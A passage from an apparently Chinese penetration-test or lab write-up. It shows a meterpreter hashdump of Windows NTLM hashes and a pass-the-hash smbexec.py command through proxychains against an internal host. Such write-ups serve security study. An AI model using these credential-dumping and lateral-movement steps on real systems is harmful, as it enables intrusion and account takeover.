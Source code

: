 [![](assets/1705540441-3178f9d9616a691a6ccc50afc96eed6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174813-5daf7638-b454-1.png)

但是不知道为什么老是卡在启动中，只有片段时刻的管理员权限，因此上线后立马密码抓取

[![](assets/1705540441-a7c20ac8cbe345c8504ffe8aa3eea202.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174822-6317a6ea-b454-1.png)

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
Adrian:1003:aad3b435b51404eeaad3b435b51404ee:618af274695162836fc7f3afd7a234f1:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:44d8d68ed7968b02da0ebddafd2dd43e:::
```

PTH

```plain
proxychains  smbexec.py -hashes :ba21c629d9fd56aff10c3e826323e6ab administrator@172.22.4.45 -codec gbk
```

[![](assets/1705540441-ae1b1c8d53d52bf533c5fb79a73e6581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174836-6b7b1966-b454-1.png)
